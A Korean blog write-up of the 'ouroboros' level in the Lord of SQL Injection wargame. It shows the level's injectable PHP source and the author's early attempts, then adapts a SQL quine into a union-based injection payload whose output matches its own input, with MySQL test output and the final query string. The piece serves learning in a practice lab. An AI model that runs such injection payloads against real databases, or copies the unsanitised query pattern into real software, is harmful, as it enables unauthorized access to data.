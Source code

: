 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - ouroboros 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
  - mingzzi
---
```


얼마 전 `LOS`를 올클했다.  

그런데 문제중에 하나가 굉장히 신박했었어서 여기에 적어두려고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select pw from prob_ouroboros where pw=''
----------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

첨에는 문제 보자마자 `오?` 했다.  

그래서 신나게 `?pw=1' or pw like '%'%23`을 입력 해 보았다.  

그런데 아무런 결과도 나오지 않았다.  

보아하니 테이블을 비워 둔 것 같았다.  

그럼.. 내가 입력 한 값이 곧 결과값이 되어야 하는데, 이걸 도저히 어떻게 해야하는지 감이 안잡혔다.  

`?pw=1' union select '1`을 입력하면, `Pw : 1`이 출력되서 `뭔가 union을 써야 하는구나...`는 알겠는데 어떻게 해야 내가 입력한 값과 출력 값이 같게 만들 수 있는지를 모르겠더라.  

그런데 인터넷을 보면 `Quine`라는 것이 있었다.    

[위키백과 - Quine](https://en.wikipedia.org/wiki/Quine_(computing))  

[SQLi Quine](https://www.shysecurity.com/post/20140705-SQLi-Quine)

찾아보니 이 두 가지가 제일 도움이 되었다.  

즉, `Quine`은 `자기 자신의 소스코드를 출력하는 것`을 의미한다고 한다.  

이번 문제에 딱 맞는 컨셉이다.  

그래서 위의 링크 중에 위키백과에서 아래와 같은 쿼리문을 가져와 테스트 해 보았다.  

```
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

그 결과 내가 입력한 내용이 그대로 결과 값으로 나온 것을 확인할 수 있었다.  

```
mysql> SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine; 
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Quine                                                                                                                                                                                                      |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

이 것을 바탕으로 문제를 풀기 위해 `SELECT`를 `a' union SELECT`로 변경했다.  

그랬더니 `'`와 `"`이 내가 입력한 값과 조금씩 달라졌다.  

왜 바뀌는지 도저히 모르겠어서 `REPLACE` 함수를 기준으로 쿼리문을 잘라서 비교 해 보았다.  

쿼리를 살펴 보면 `$`가 있는데, 앞의 두 `$` 자리에 마지막의 `SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine`가 `REPLACE` 되어 들어가게 된다.  

그 과정에서 `"`가 `'`로 바뀌게 되는데, 나는 쿼리의 시작 부분에서 `a' union SELECT`가 필요하므로, 처음에 `a"`로 입력하고 이 후 `REPLACE` 함수를 실행하는 과정에서 `a'`로 바뀌도록 했다.  

어차피 뒤의 `a" union SELECT` 부분은 실제로 쿼리가 실행되는 부분이 아니어서 상관없기 때문이다.  

그 결과 만들어진 쿼리는 아래와 같다.  

```
select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

내가 내 서버에서 테스트 한 쿼리인데 너무 복잡해서 알아보기가 힘든 것 같다.  

```
mysql> select pw from user where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| pw                                                                                                                                                                                                                                    |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine |
+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

쿼리를 실행 한 결과, 내가 입력 한 쿼리가 그대로 결과 값으로 나온 것을 확인할 수 있다.  

드디어 이를 바탕으로 아래와 같은 쿼리스트링을 넘겨주었다.  

```
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23
```

이 복잡한 쿼리를 통해 드디어 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_ouroboros where pw='a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine#') AS Quine#
OUROBOROS Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

`OUROBOROS Clear!!`
